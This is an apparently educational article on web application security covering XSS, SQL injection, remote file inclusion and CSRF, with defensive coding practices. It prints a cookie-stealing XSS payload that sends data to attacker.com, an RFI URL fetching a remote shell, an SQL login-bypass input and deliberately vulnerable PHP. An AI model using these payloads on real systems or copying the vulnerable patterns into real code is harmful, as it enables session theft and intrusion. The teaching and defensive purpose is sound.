







*Application security* is one of the core aspects of cybersecurity. It may include hardware, software, and procedures that identify or minimize security vulnerabilities. It describes **security measures at the application level** to prevent data or code within the application from being stolen or hijacked.

> **Key Insight**: Web applications are the most common attack vector because they're accessible to anyone on the internet—making them prime targets for attackers.

## Understanding Web Application Security

*Web application security* is the process of protecting websites and online services against different security threats that exploit vulnerabilities in an application's code.

### Why Web Apps Are Targeted



**Typical Targets:**
- Content Management Systems (*WordPress*, *Joomla*)
- Database administration tools (*phpMyAdmin*)
- SaaS applications
- E-commerce platforms
- Banking portals
- Government services

**Critical Difference**: Web applications live on **remote servers**, not locally on a user's machine, and information must be transferred to and from the user over the **internet**—creating multiple attack opportunities.

## OWASP Top 10 Web Vulnerabilities

These are the most critical web application vulnerabilities, all part of the *OWASP Top 10*:

### 1. Cross-Site Scripting (XSS)

*Cross-site scripting (XSS)* occurs when hackers execute malicious JavaScript within a victim's browser. The code runs within a user's browser context.

**How XSS Works:**



**Attack Example:**

```javascript
// Attacker injects
<script>
 fetch('https://attacker.com/steal?cookie=' + document.cookie)
</script>

// When victim visits, their session cookie is sent to attacker
```

**Types of XSS:**

| **Type** | **Description** | **Persistence** |
|----------|-----------------|-----------------|
| **Reflected** | Immediately reflected in response | Non-persistent |
| **Stored** | Saved in database | Persistent |
| **DOM-based** | Occurs in client-side code | Non-persistent |

**Upon initial injection**, the site typically isn't entirely controlled by the attacker. Instead, the bad actor **attaches malicious code to a legitimate website**, essentially tricking browsers into executing their malware whenever the site is loaded.

### 2. SQL Injection (SQLi)

*SQL injection* is a technique used to inject malicious code into existing SQL statements. These injections make it possible for malicious users to:

- Bypass existing security controls
- Gain unauthorized access
- Obtain, modify, and extract data
- Access customer records, intellectual property
- Locate administrators' credentials
- Gain complete control over databases

**Vulnerable Code:**

```php
// VULNERABLE - Never do this!
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "' 
 AND password = '" . $_POST['password'] . "'";
```

**Attack:**

```sql
-- Input: username = admin' --
-- Resulting query:
SELECT * FROM users WHERE username = 'admin' --' AND password = ''
-- Password check bypassed!
```



**Impact**: SQL injection attacks can affect any application that uses a SQL database—websites, desktops, and mobile apps—with **severe consequences**.

### 3. Remote File Inclusion (RFI)

A hacker uses this attack to **inject a file onto a web application server remotely**. This can result in:
- Malicious scripts or code within the application
- Data theft or manipulation
- Complete server compromise

**Example:**

```php
// Vulnerable code
include($_GET['page'] . '.php');

// Attack
http://site.com/index.php?page=http://attacker.com/shell

// Includes and executes attacker's file!
```

### 4. Cross-Site Request Forgery (CSRF)

*CSRF* is an attack that occurs when a malicious website, email, blog, or program causes a user's web browser to perform an **unwanted action** on a trusted site when the user is authenticated.

**How CSRF Works:**



**Attack works because**: Browser requests automatically include **all cookies**, including session cookies. The site cannot distinguish between legitimate requests and forged requests.

**Example Attack:**

```html
<!-- Attacker's malicious page -->

<!-- If victim is logged into bank, this executes! -->
```

## Securing Web Applications

Here are proven ways of securing a web application:

### 1. Comprehensive Security Assessment

When developing and securing a web application, it is essential to:

**Gather Information:**
- Application architecture
- Entry points and data flows
- Client-side and server-side code
- Third-party dependencies
- API endpoints



### 2. Access Control Testing

**Test for access control issues:**

| **Test Type** | **What to Check** | **Vulnerability** |
|---------------|------------------|-------------------|
| **Vertical** | Can low-privilege user access admin functions? | Privilege escalation |
| **Horizontal** | Can User A access User B's data? | Broken access control |
| **Function-level** | Are admin APIs properly protected? | Insecure direct object references |

### 3. Authentication & Authorization

**Validate the application for:**
- Strong authentication mechanisms
- Proper session management
- Authorization checks on all resources
- Password complexity requirements
- Account lockout policies

### 4. Encryption

**All data transmitted** through the web application should be secure with **up-to-date encryption**:

- HTTPS/TLS for all connections
- Strong cipher suites (TLS 1.3)
- HSTS headers
- Encryption at rest for sensitive data
- Secure cookie flags (HttpOnly, Secure, SameSite)

### 5. DDoS Protection

It would be essential to increase the application's **resilience against DDoS attacks** by:

- Account lockout policies (prevent brute force)
- Rate limiting on APIs
- Network filtering services (CloudFlare, Akamai)
- Load balancing
- Caching strategies

### 6. Web Application Firewall (WAF)

A *WAF (Web Application Firewall)* helps protect web applications against malicious network traffic by placing a **filtration barrier** between the targeted server and attackers.



**WAF Protections:**
- SQL injection filtering
- XSS prevention
- CSRF protection
- Rate limiting
- Bot detection
- Virtual patching

## Security Best Practices

### Input Validation

```javascript
// Example: Secure input handling
function validateInput(input) {
 // Whitelist approach
 const allowedPattern = /^[a-zA-Z0-9_-]+$/;
 
 if (!allowedPattern.test(input)) {
 throw new Error('Invalid input');
 }
 
 // Additional checks
 if (input.length > 100) {
 throw new Error('Input too long');
 }
 
 return sanitize(input);
}
```

### Output Encoding

```javascript
// Prevent XSS through proper encoding
function escapeHTML(str) {
 return str
 .replace(/&/g, '&amp;')
 .replace(/</g, '&lt;')
 .replace(/>/g, '&gt;')
 .replace(/"/g, '&quot;')
 .replace(/'/g, '&#x27;');
}
```

### Parameterized Queries

```python
# SECURE: Use parameterized queries
cursor.execute(
 "SELECT * FROM users WHERE username = ? AND password = ?",
 (username, password)
)

# VULNERABLE: Don't concatenate
query = f"SELECT * FROM users WHERE username = '{username}'" # DON'T!
```

## Defense in Depth



**Applications are the most significant attack vector** for attackers. The reality is that clever attackers might be able to find a vulnerability even in a reasonably secure environment. Therefore, it is essential to maintain a **holistic approach**.

## Security Testing Checklist

### Development

- [ ] Secure coding guidelines followed
- [ ] Input validation on all inputs
- [ ] Output encoding for all outputs
- [ ] Parameterized queries used
- [ ] Authentication implemented properly
- [ ] Authorization checks on all resources
- [ ] Error messages don't leak information
- [ ] Logging implemented

### Pre-Production

- [ ] Static Application Security Testing (SAST)
- [ ] Dynamic Application Security Testing (DAST)
- [ ] Dependency scanning
- [ ] Code review completed
- [ ] Penetration testing performed
- [ ] Security headers configured

### Production

- [ ] WAF enabled and configured
- [ ] HTTPS enforced
- [ ] Security monitoring active
- [ ] Incident response plan ready
- [ ] Regular security assessments
- [ ] Patch management process

## Conclusion

*Web application security* is a critical discipline that protects the applications, data, and users that drive modern business. From defending against OWASP Top 10 vulnerabilities like XSS and SQL injection to implementing comprehensive security measures like WAFs and encryption, securing web applications requires a multi-layered approach.

The reality is simple: **applications are the primary attack vector**. Attackers will find vulnerabilities. The question is whether you've built enough layers of defense to:
- Prevent most attacks
- Detect successful compromises quickly
- Respond effectively when breaches occur
- Recover with minimal damage

By implementing security throughout the development lifecycle—from design to deployment to operation—you can build web applications that are resilient, trustworthy, and secure.

> **Final Takeaway**: Web application security is not a feature you add at the end—it's a foundation you build from the beginning. Test like an attacker, defend in depth, and never trust user input.

## References

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [NIST: Web Application Security](https://csrc.nist.gov/)
